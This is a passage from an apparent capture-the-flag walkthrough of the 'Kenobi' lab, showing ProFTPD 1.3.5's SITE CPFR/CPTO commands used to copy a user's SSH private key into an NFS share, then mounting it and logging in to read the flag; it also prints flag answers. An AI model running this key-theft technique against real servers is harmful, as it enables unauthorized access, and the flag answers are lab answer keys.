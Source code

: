 ```
```
**Answer**: `/var`
## Gain initial access with ProFtpd
### What is the version?
```
$ nc <MACHINE_IP> 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.238.188]
```
**Answer**: `1.3.5`
### How many exploits are there for the ProFTPd running?
![exploit-db](exploit-db.jpg)
**Answer**: `3`
### What is Kenobi's user flag (`/home/kenobi/user.txt`)?
* 
```
 $ nc 10.10.55.138 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.55.138]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
* 
```bash
& mkdir nfs
$ mount <MACHINE_IP>:/var nfs
$ ls -la nfs
total 56
drwxr-xr-x  2 root root      4096 Sep  4  2019 backups
drwxr-xr-x  9 root root      4096 Sep  4  2019 cache
drwxrwxrwt  2 root root      4096 Sep  4  2019 crash
drwxr-xr-x 40 root root      4096 Sep  4  2019 lib
drwxrwsr-x  2 root games     4096 Apr 13  2016 local
lrwxrwxrwx  1 root root         9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root vboxusers 4096 Sep  4  2019 log
drwxrwsr-x  2 root mem       4096 Feb 27  2019 mail
drwxr-xr-x  2 root root      4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root         4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root      4096 Jan 30  2019 snap
drwxr-xr-x  5 root root      4096 Sep  4  2019 spool
drwxrwxrwt  6 root root      4096 Apr 15 14:32 tmp
drwxr-xr-x  3 root root      4096 Sep  4  2019 www
$ cp nfs/tmp/id_rsa .
$ chmod 600 id_rsa
$ ssh -i id_rsa kenobi@<MACHINE_IP>
kenobi@kenobi:~$ cat /home/kenobi/user.txt
d0b0f3f53b6caa532a83915e19224899
```
**Answer** `d0b0f3f53b6caa532a83915e19224899`
## Privilege Escalation with Path Variable Manipulation
### What file looks particularly out of the ordinary?
```bash
```
